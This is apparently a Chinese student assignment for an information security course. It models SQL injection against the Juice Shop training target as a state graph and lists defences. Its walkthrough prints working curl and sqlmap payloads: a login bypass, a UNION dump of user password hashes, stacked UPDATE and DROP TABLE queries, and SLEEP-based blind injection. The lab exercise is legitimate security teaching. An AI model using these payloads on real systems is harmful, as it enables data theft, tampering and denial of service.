

| 姓 名 | Zhang San |
| 学 号 (IDU) | 12345678 |
| Variant | 1 |
| 课程 | Information Security |
| 日 期 | 2026-10-19 |
本工作选择一个具体的计算机攻击类型，完整描述攻击者的动作序列，并把该攻击形式化为一个有向图： 初始状态 S0（攻击者尚未介入）、若干中间状态 Si（攻击者动作或系统状态变化）、 以及终态 Sk（攻击造成的损失）。目的是练习「把非形式化的攻击叙事转换成可检查的状态机」， 并据此推导防护措施。
选题SQL 注入（SQL Injection, SQLi），位于手册给定列表之中，且与 Work 1、Work 2 的知识点直接衔接。
| 项目 | 说明 |
|---|---|
| 漏洞类别 | CWE-89 Improper Neutralization of Special Elements used in an SQL Command；OWASP Top 10 2021 A03: Injection |
| 受影响的组件 | Web 应用的登录、搜索、排序、筛选等所有把用户输入拼接进 SQL 的位置；其后端的数据库（MySQL / PostgreSQL / SQLite） |
| 根本弱点 | 应用把「数据」当成「代码」拼进 SQL 语句，数据库无法区分开发者的语句与攻击者的输入 |
| 典型后果 | 绕过认证、读取/篡改/删除任意表、在数据库权限足够时执行系统命令（如 MySQL INTO OUTFILE、xp_cmdshell） |
| 攻击者前提 | 能够访问一个存在注入点的 HTTP 接口（无需账号）；数据库账号权限越高，后果越严重 |
以下以 Work 2 的 Juice Shop 靶场（或任意存在注入的登录/搜索接口）为例，给出可复现的动作与命令。 每一步都对应有向图中的一次状态转移。
nmap -sV -p 3000,8080 target curl -s http://target:3000/ | grep -Ei 'form|input|search' curl -s http://target:3000/rest/products/search?q=apple
目标是找出接受字符串输入、且返回内容受数据库影响的接口。此阶段攻击者尚未改变系统状态。
curl -s "http://target:3000/rest/products/search?q='"
单个引号使拼接后的 SQL 语法错误，返回 500 或 SQL 错误信息（如 SQLITE_ERROR: unrecognized token），
说明输入进入了查询语句——注入点确认。
# 登录绕过：' OR 1=1--
curl -s -X POST http://target:3000/rest/user/login \
-H 'Content-Type: application/json' \
-d '{"email":"admin@juice-sh.op'"'"' OR 1=1--","password":"x"}'
# 联合查询读取其他表：')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM Users--
curl -s "http://target:3000/rest/products/search?q=apple'))%20UNION%20SELECT%20id,email,password,4,5,6,7,8,9%20FROM%20Users--"
一旦返回了本不应可见的行（用户表、密码哈希），注入即成功。此时攻击者获得了对数据库的读写能力。
sqlmap -u "http://target:3000/rest/products/search?q=apple" \
--batch --dbs --dump -T Users
批量导出数据，或通过 UNION 分页逐条带出。泄露的数据（邮箱、口令哈希、订单）离开系统边界，形成
信息窃取类损失。
# 堆叠查询（数据库/驱动支持时） curl -s "http://target/search?q=x'; UPDATE Products SET price=0 WHERE id=1;--" curl -s "http://target/search?q=x'; DROP TABLE Reviews;--"
价格被改为 0 或表被删除，业务数据完整性被破坏，形成修改/删除信息类损失。
# 布尔盲注：页面真假差异 curl -s "http://target/search?q=x' AND SUBSTR((SELECT password FROM Users LIMIT 1),1,1)='a'--" # 时间盲注：用 SLEEP 逐位推断，同时大量占用数据库连接 curl -s "http://target/search?q=x' AND (SELECT 1 FROM (SELECT SLEEP(5))a)--"
当回显被关闭、过滤较严时，攻击者改用布尔/时间盲注；每个请求都让数据库执行一次重量级子查询， 在并发场景下迅速耗尽连接池与 CPU，形成拒绝服务类损失。

| 状态 | 含义 | 判定依据（如何观测到） |
|---|---|---|
| S0 | 系统正常运行，无入侵者影响 | 基线流量、无异常查询 |
| S1 | 攻击者完成侦察，掌握接口与参数 | Web 日志中出现扫描特征（目录枚举、可疑 UA） |
| S2 | 确认注入点（输入影响 SQL 语义） | 日志中出现单引号、--、UNION 等 payload |
| S3 | 注入成功，获得越权数据访问能力 | 异常返回行数、报错信息、非正常查询计划 |
| S4 | 批量导出数据 | 短时间内大量 SELECT、导出流量激增 |
| S5 | 数据被篡改或删除 | UPDATE/DELETE/DROP 审计记录 |
| S6 | 盲注/重查询，资源被大量占用 | 数据库 CPU、慢查询、连接数异常升高 |
| Sk1 | 终态：信息窃取 | 敏感数据出现在外部（泄露样本、暗网） |
| Sk2 | 终态：信息被修改/删除 | 数据校验失败、业务对账不平 |
| Sk3 | 终态：拒绝服务 | 接口超时、5xx 比例上升、连接池耗尽 |
| 转移 | 攻击者动作 | 为什么能推进 |
|---|---|---|
| S0→S1 | 爬站、端口扫描、接口枚举 | 应用对外暴露了可枚举的接口与参数 |
| S1→S2 | 提交引号/括号，观察报错 | 错误信息回显暴露了 SQL 结构 |
| S2→S3 | 构造 OR 1=1--、UNION SELECT | 输入被拼接进语句，逻辑被改写 |
| S3→S4 | dump 目标表 | 数据库账号可读这些表 |
| S4→Sk1 | 外带数据 | 数据离开系统边界即构成泄露 |
| S3→S5 | 堆叠查询写入/删除 | 数据库账号具备写权限 |
| S5→Sk2 | 破坏数据完整性 | 无备份/无审计则不可恢复 |
| S2→S6 | 改用布尔/时间盲注 | 即使无回显，语义差异仍可被观测 |
| S6→Sk3 | 并发发送 SLEEP() 请求 | 每个请求占用连接与 CPU，资源被耗尽 |
| 损失类别 | 在本攻击中的具体表现 |
|---|---|
| 信息窃取 | 用户表（邮箱、口令哈希）、订单、评论等内容被导出；口令哈希可进一步离线爆破并横向登录其他系统 |
| 信息修改或删除 | 价格被篡改（0 元下单）、评论被删、表被 DROP，破坏业务完整性与可追溯性 |
| 拒绝服务/访问 | 盲注与重查询占满数据库连接池，正常用户无法登录或下单 |
三类损失可能同时发生：一次成功的注入往往先窃取、再篡改、最后以资源耗尽收场。图中从 S0 出发的每一条路径 都终止于某个 Sk，没有「悬空」的中间状态。
SELECT/INSERT，禁止 FILE、SUPER 权限，切断 S3→S5 与系统命令执行。UNION、SLEEP(、注释符等特征，并对 4xx/5xx 突增告警。UNION、INFORMATION_SCHEMA 访问与大批量导出。SQL 注入的本质是「数据与代码的边界被打破」。用有向图描述它，可以把一句模糊的「攻击者注入了 SQL」 拆成可验证的状态与动作：侦察 → 探测 → 注入 → 外泄/篡改/资源耗尽。图上的每条边都对应一个具体动作， 因此每条边也对应一个可以下手阻断的位置——这正是形式化建模对防御设计的价值：先找边，再找断点。
本工作也说明，同一种攻击可以因为攻击者策略不同而画出不同的图（例如只做盲注、或只做认证绕过）， 但 S0 与 Sk 的定义必须稳定，否则图就失去了可比性。